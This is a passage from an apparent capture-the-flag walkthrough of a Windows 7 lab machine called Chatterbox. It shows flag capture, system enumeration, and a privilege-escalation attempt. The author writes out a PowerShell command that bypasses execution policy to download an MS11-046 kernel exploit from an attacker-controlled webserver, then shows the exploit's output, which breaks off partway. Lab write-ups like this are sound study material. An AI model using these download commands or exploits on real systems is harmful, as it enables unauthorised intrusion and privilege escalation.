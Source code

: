 C:\Windows\system32&gt;
</pre>

I captured user.txt flag

<pre>C:\Users\Alfred\Desktop&gt;type user.txt 
type user.txt 
72290246dfaedb1e3e3ac9d6fb306334</pre>

Next stop to see what info i can find out about the system

<pre>C:\Users\Administrator\Desktop&gt;systeminfo 
systeminfo 

Host Name: CHATTERBOX 
OS Name: Microsoft Windows 7 Professional
OS Version: 6.1.7601 Service Pack 1 Build 7601
OS Manufacturer: Microsoft Corporation 
OS Configuration: Standalone Workstation
OS Build Type: Multiprocessor Free
Registered Owner: Windows User 
Registered Organization: 
Product ID: 00371-223-0897461-86794
Original Install Date: 12/10/2017, 9:18:19 AM
System Boot Time: 5/30/2018, 11:48:49 AM 
System Manufacturer: VMware, Inc. 
System Model: VMware Virtual Platform 
System Type: X86-based PC 


</pre>

I was surprised to see I could browse into the Administrator&#8217;s folder and desktop. Unfortunately I could not view the root flag.

<pre>C:\Users\Administrator\Desktop&gt;type root.txt
type root.txt 
Access is denied.</pre>

Back to Google to see if I can find out what exploits are out there for 6.1.7601 service pack 1 build 7601.

Found an exploit. Copied it to kali and used powersploit the shell to download it from python webserver I called it ms11.exe for simplicity. Here is a useful website <https://www.jollyfrogs.com/transfer-files-windows/>

<pre>C:\Users\Alfred\Desktop&gt;powershell.exe -noninteractive -ExecutionPolicy Bypass -NoLogo -NoProfile (new-object System.Net.WebClient).DownloadFile('http://10.10.14.234:8000/MS11.exe','MS11.exe')            
powershell.exe -noninteractive -ExecutionPolicy Bypass -NoLogo -NoProfile (new-object System.Net.WebClient).DownloadFile('http://10.10.14.234:8000/MS11.exe','MS11.exe')  
</pre>

<pre>C:\Users\Alfred\Desktop&gt;ms11.exe
ms11.exe
[*] MS11-046 (CVE-2011-1249) x86 exploit
   [*] by Tomislav Paskalev
[*] Identifying OS
   [+] 32-bit
   [+] Windows 7 SP1
[*] Locating required OS components
   [+] ntkrnlpa.exe
      [*] Address:      0x82a0d000
      [*] Offset:       0x01620000
      [+] HalDispatchTable
         [*] Offset:    0x0174d440
   [+] NtQueryIntervalProfile
      [*] Address:      0x779a5c90
   [+] ZwDeviceIoControlFile